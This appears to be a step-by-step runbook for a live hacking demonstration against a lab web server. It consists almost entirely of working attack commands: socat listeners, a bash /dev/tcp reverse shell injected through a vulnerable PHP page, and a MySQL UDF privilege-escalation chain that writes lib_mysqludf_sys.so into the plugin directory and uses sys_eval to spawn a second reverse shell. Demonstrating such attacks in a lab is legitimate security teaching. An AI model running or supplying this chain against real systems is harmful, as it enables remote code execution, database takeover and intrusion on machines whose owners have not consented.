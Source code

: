 #. ensure iptables on laptop is open to receive reverse shells.
   #. sudo iptables -I INPUT -p tcp --dport 11457 -j ACCEPT
   #. sudo iptables -I INPUT -p tcp --dport 11458 -j ACCEPT
#. launch terminator onto projector
   #. split into 4 panes
       #. ctrl + shift + o (split horizontal)
       #. ctrl + shift + e (split vertical)
#. upper left pane.
    #. socat readline TCP-LISTEN:11457 
#. upper right pane.
    #. socat readline TCP-LISTEN:11457 
#. lower left pane
    #. ping 172.16.33.2 show web server is up
    #. launch stage_webshell.sh in lower left of terminator
#. lower right pane
   #. once stage_webshell.sh has completed, launch stage_udf.sh

#. open browser to http://172.16.33.2/vuln_webapp/images.php
    #. in "Run command dialogue": bash -i >& /dev/tcp/172.16.33.1/11457 0>&1 &
    #. head back to terminator upper left pane
        #. run
            #. id
            #. w
            #. cat sqli.php (not getting db server details)
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data.sql 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"

            #. ```cat > data2.sql << EOF
               DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
               DROP FUNCTION IF EXISTS sys_get;
               DROP FUNCTION IF EXISTS sys_set;
               DROP FUNCTION IF EXISTS sys_exec;
               DROP FUNCTION IF EXISTS sys_eval;

               CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
               EOF```
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data2.sql 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('id')" 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('whoami')" 
             #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('bash -i >& /dev/tcp/172.16.33.1/11458 0>&1 &')"
    #. head back to terminator upper right pane
        #. run
            #. id
            #. whoami
            #. uname -a
